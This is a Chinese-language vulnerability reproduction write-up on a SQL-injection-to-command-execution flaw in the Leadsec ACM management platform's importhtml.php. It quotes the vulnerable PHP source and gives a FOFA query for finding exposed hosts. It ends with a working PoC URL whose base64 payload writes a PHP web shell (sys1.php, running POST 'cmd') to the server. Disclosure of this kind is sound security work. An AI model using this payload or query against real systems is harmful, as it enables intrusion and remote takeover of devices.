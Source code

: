 # 网御 Leadsec ACM管理平台 importhtml.php 远程命令执行漏洞

## 漏洞描述

网御 Leadsec ACM管理平台 importhtml.php文件存在SQL注入导致 远程命令执行漏洞

## 漏洞影响

```
网御 Leadsec ACM管理平台
```

## FOFA

```
title="Leadsec ACM-管理平台"
```

## 漏洞复现

登录页面

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162230267.png)

出现漏洞的文件 **importhtml.php**

```php
<?php 
include_once("global.func.php");
if($_SESSION['language']!="english")
{
	require_once ("include/language_cn.php");
}
else 
{
	require_once ("include/language_en.php");
}

if(isset($_GET['type'])) $get_type = $_GET['type'];
if(isset($_GET['tab'])) $get_tab = $_GET['tab'];
if(isset($_GET['sql'])) $get_sql = $_GET['sql'];

if($get_type == "exporthtmlpost")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtml("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlchat")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlChat("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlmail")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlMail("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebsend")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebSend("$get_tab",stripslashes(base64_decode($get_sql)));
}
elseif($get_type == "exporthtmlwebrecv")	
{
	$get_tab = $arr_export_cn[$get_tab];
	exportHtmlWebRecv("$get_tab",stripslashes(base64_decode($get_sql)));
}
?>
```

跟踪exportHtmlMail函数

```php
function exportHtmlMail($filename,$sql){

	Header( "Expires: 0" );

	Header( "Pragma: public" );

	Header( "Cache-Control: must-revalidate, post-check=0, pre-check=0" );

	Header( "Cache-Control: public");

	Header( "Content-Type: application/octet-stream" );

	header("Accept-Ranges: bytes");

	header("Content-Disposition: attachment; filename=$filename.html");

	echo "<html>\n";

	echo "<head><title>报表</title></head>\n";

	echo "<body>\n";

	$conn = connOther();

	$result = mysql_query($sql,$conn);

	while ($data= mysql_fetch_array($result)){

		$post_content = "";

		if($data['mail_file_path'] == "(null)"){

			$post_content = "<font color=red>内容审计未启用</font>";

		}

		else{



			$post_filename=$data['mail_file_path'];

			$ifother = "";

			$ifother = ifExistOther($post_filename);

			if($ifother!=""){

				$post_filename = $ifother;

			}

			$str = "/usr/bin/cap2con $post_filename pop";

			system($str,$returnvalue);

			$post_filename=str_replace(".cap",".eml",$post_filename);

			$post_content = file_get_contents($post_filename);

			$rec=new mime_decode;

			$post_content=$rec->decode_mime_string($post_content);

			//...

		}

	}

}
```

这里可以发现通过base64解码后执行的Sql语句结果传入函数exportHtmlMail中调用system执行, 而 $post_filename 可控

```php
$str = "/usr/bin/cap2con $post_filename pop";
```

验证POC

```plain
https://xxx.xxx.xxx.xxx/importhtml.php?type=exporthtmlmail&tab=tb_RCtrlLog&sql=c2VsZWN0IDB4M2MzZjcwNjg3MDIwNjU2MzY4NmYyMDczNzk3Mzc0NjU2ZDI4MjQ1ZjUwNGY1MzU0NWIyMjYzNmQ2NDIyNWQyOTNiM2YzZSBpbnRvIG91dGZpbGUgJy91c3IvaGRkb2NzL25zZy9hcHAvc3lzMS5waHAn
```

访问成功后会触发下载日志文件，再访问 sys1.php

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162230632.png)